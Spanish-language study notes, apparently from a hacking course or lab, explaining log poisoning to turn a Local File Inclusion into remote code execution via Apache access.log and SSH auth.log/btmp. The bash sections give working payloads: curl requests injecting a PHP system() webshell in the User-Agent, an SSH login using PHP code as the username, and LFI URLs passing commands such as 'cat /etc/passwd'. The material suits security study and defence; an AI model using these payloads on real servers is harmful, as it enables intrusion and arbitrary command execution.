 # Log Poisoning (LFI -> RCE)

Tags: #LFI #OWASP #Explotacion #RCE

El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro** (**logs**) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **Local File Inclusion (LFI)** para lograr una **Remote Code Execution (RCE)** en el servidor.

Como ejemplos para esta clase, trataremos de envenenar los recursos ‘**auth.log**‘ de **SSH** y ‘**access.log**‘ de **Apache**, comenzando mediante la explotación de una vulnerabilidad LFI primeramente para acceder a estos archivos de registro. Una vez hayamos logrado acceder a estos archivos, veremos cómo manipularlos para incluir código malicioso.

En el caso de los logs de SSH, el atacante puede inyectar código PHP en el campo de **usuario** durante el proceso de autenticación. Esto permite que el código se registre en el log ‘**auth.log**‘ de SSH y sea interpretado en el momento en el que el archivo de registro sea leído. De esta manera, el atacante puede lograr una ejecución remota de comandos en el servidor.

En el caso del archivo ‘**access.log**‘ de Apache, el atacante puede inyectar código PHP en el campo **User-Agent** de una solicitud HTTP. Este código malicioso se registra en el archivo de registro ‘access.log’ de Apache y se ejecuta cuando el archivo de registro es leído. De esta manera, el atacante también puede lograr una ejecución remota de comandos en el servidor.

Cabe destacar que en algunos sistemas, el archivo ‘**auth.log**‘ no es utilizado para registrar los eventos de autenticación de SSH. En su lugar, los eventos de autenticación pueden ser registrados en archivos de registro con diferentes nombres, como ‘**btmp**‘.

Por ejemplo, en sistemas basados en Debian y Ubuntu, los eventos de autenticación de SSH se registran en el archivo ‘auth.log’. Sin embargo, en sistemas basados en Red Hat y CentOS, los eventos de autenticación de SSH se registran en el archivo ‘btmp’. Aunque a veces pueden haber excepciones.

Para prevenir el Log Poisoning, es importante que los desarrolladores limiten el acceso a los archivos de registro y aseguren que estos archivos se almacenen en un lugar seguro. Además, es importante que se valide adecuadamente la entrada del usuario y se filtre cualquier intento de entrada maliciosa antes de registrarla en los archivos de registro.


## HTML Apache

Debemos de estar en el grupo **adm** y nos podemos ir a la siguiente ruta para mirar logs
```bash
/var/log
```

```bash
❯ cat access.log       # Podemos ver los logs en Apache
```

* **index.php?filename=/var/log/apache2/access.log** -> Ruta típica de logs de Apache en donde podemos ver los logs, incluyendo los del User Agent ('Mozilla/5.0 (Windows NT...)')
**User Agent**: Es un campo del protocolo HTTP que puede utilizarse para transmitir información mas o menos detallada sobre el dispositivo de consulta que tramita la solicitud

Podemos hacer la solicitud a la pagina y mirar en los log el User-Agent y la petición que hicimos
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: PROBANDO"

	# H = Cabecera que queremos modificar
```

---
Podemos inyectar comandos si estamos en una pagina en PHP
**Nota**: La funcion System debe de estar habilitada

Para saber si hay funciones deshabilitadas
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php phpinfo(); ?>"   # Miras el phpinfo en la web y nos fijamos en 'disable_functions' para verificar que no este system ahi 
```

Podemos ejecutar comandos específicos 
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php system('whoami'); ?>"
```

Podemos controlar la ejecución del comando
```bash
❯ curl -s -X GET "http://localhost/test" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"     # Escapamos el dollar porque en bash a veces genera conflictos
```
* index.php?filename=/var/log/apache2/access.log&cmd=whoami
Debemos de colocar al final **&cmd=comando** y es ahí donde podríamos colocar cualquier comando 

## SSH

Debemos de etare en el grupo **adm** y nos podemos ir a la siguiente ruta para mirar logs
```bash
/var/log
```

```bash
❯ cat auth.log            # Podemos ver los logs en SSH
❯ cat btmp
```

Autenticarnos con SSH
```bash
❯ ssh test@172.17.0.2     # Nos autenticamos con ssh
```
Si colocamos una passwd incorrecta, generamos un log y se almacena en 'btmp'

Nosotros podemos controlar el log que es del usuario
```bash
❯ ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2
```
Por ende en la url podemos controlar la ejecución del comando, si ese archivo tiene capacidad de escritura
* index.php?filename=/var/log/btmp&cmd=cat /etc/passwd
Debemos de colocar al final **&cmd=comando** y es ahí donde podríamos colocar cualquier comando 